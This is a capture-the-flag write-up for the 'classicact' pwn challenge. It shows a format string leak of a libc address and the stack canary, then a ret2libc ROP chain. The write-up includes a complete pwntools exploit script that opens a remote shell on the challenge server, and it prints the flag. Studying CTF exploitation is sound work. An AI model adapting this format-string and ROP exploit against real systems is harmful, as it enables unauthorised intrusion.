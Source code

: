 ## Question 

Pwning your friends is a class act. So why not do it to some random server?
[classicact](classicact)

0.cloud.chals.io 10058

## Solution

The first input suffers from a format string vulnerability. We can use it to leak the address of ```_IO_2_1_stdout_``` in libc and the stack canary. 

```
pwndbg> r
Starting program: /root/workspace/classicact 
Please enter your name!
%12$p.%19$p           
Hello:
0x7ffff7fa56c0.0x43b7ce88a6a7e900
What would you like to do today?

pwndbg> x/i 0x7ffff7fa56c0
   0x7ffff7fa56c0 <_IO_2_1_stdout_>:    xchg   DWORD PTR [rax],ebp

pwndbg> canary
AT_RANDOM = 0x7fffffffe849 # points to (not masked) global canary value
Canary    = 0x43b7ce88a6a7e900 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│  0x7fffffffe528 ◂— 0x43b7ce88a6a7e900
```

Since we have an address to libc we can just call system('/bin/sh'). We'll need a ```pop rdi; ret``` gadget to load the address of /bin/sh into rdi. We'll also need a ```ret``` gadget to align the stack. 

```python
   ret = (r.find_gadget(['ret']))[0]
   pop_rdi = pop_rdi = (r.find_gadget(['pop rdi', 'ret']))[0] 
   binsh=next(libc.search(b'/bin/sh\0'))
   system=libc.sym['system']
```

The binary has stack canaries enabled, so we'll need to repair the canary before executing our ROP chain.

```python
   chain = cyclic(72)
   chain += p64(canary)
   chain += cyclic(8)
   chain += p64(ret)
   ...
```

Our [final exploit](pwn-classictact.py) follows. After a little trial and error, we determined the challenge authors were using an ubuntu:20.04 container. So we used the following [libc](libc-20.04)

```python
from pwn import *

def leak():
   p.sendline(b'%12$p.%19$p')
   p.recvuntil(b'Hello:')
   leaks=p.recv().strip(b'\nWhat would you like to do today?\n').split(b'.')
   libc.address=int(leaks[0],16)-libc.sym['_IO_2_1_stdout_'] 
   canary=int(leaks[1],16)
   return canary

def rop_system(canary):
   ret = (r.find_gadget(['ret']))[0]
   pop_rdi = pop_rdi = (r.find_gadget(['pop rdi', 'ret']))[0] 
   binsh=next(libc.search(b'/bin/sh\0'))
   system=libc.sym['system']

   chain = cyclic(72)
   chain += p64(canary)
   chain += cyclic(8)
   chain += p64(ret)
   chain += p64(pop_rdi)
   chain += p64(binsh)
   chain += p64(system)
   p.sendline(chain)


e = context.binary = ELF('./classicact')
r = ROP(e)
#libc= ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc= ELF('./libc-20.04')
#p = process('./classicact',level="error")  
p = remote('0.cloud.chals.io',10058)

canary=leak()
rop_system(canary)
p.interactive()
```
Running it gives us a shell and we can read the flag.

```
[+] Opening connection to 0.cloud.chals.io on port 10058: Done
[*] Switching to interactive mode
Good luck doing that!
$ cat flag
UMDCTF{H3r3_W3_G0_AgAIn_an0thEr_RET2LIBC}
```

